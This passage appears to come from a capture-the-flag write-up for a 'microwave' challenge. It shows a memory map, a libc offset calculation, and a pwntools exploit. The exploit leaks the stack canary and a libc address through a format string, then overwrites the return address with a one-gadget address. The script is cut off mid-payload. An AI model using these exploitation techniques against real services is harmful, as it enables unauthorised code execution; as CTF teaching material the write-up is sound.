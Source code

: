 ```bash
0x00007ffffffde000 0x00007ffffffff000 rw-p  [stack]
0xffffffffff600000 0xffffffffff601000 r-xp  [vsyscall]

```

The offset is thus ```hex(0x7ffff7b02870 - 0x00007ffff7a17000) = 0xeb870```

Now you can construct the exploit using [Pwntools](https://github.com/Gallopsled/pwntools):

Exploit:

```python

#!/usr/bin/env python2
# author: deadc0de6

from pwn import *
context.arch='amd64'

PASSWORD = "n07_7h3_fl46"
magic_addr = 0x4652c
base_offset = 0xeb870

#p = remote('microwave.insomni.hack', 1337)
p = remote('127.0.0.1', 1337)

print p.recvuntil('[MicroWave]: ')

# select (1) connect
p.sendline("1")
p.recvuntil("username: ")

# send username
p.sendline("%p."*8)
p.recvuntil("password: ")
# send password
p.sendline(PASSWORD)

# read leaked addresses
ret = p.recvuntil('[MicroWave]: ')
addrs = ret.split()[1].split('.')
print addrs

# canary is the sixth element
canary = int(addrs[5], 16)

# libc address is the second element
libcaddr = int(addrs[1], 16)
libc_base = libcaddr - base_offset

# print some information
print 'canary is %s' % (hex(canary))
print "libc base: %s" % (hex(libc_base))
print "magic addr: %s" % (hex(libc_base + magic_addr))

# select (2) send tweet
p.sendline("2")
print p.recvuntil("#> ")

# construct the exploit
buf = "A"*1032
buf += pack(canary)
buf += "B"*8
buf += pack(libc_base + magic_addr)

```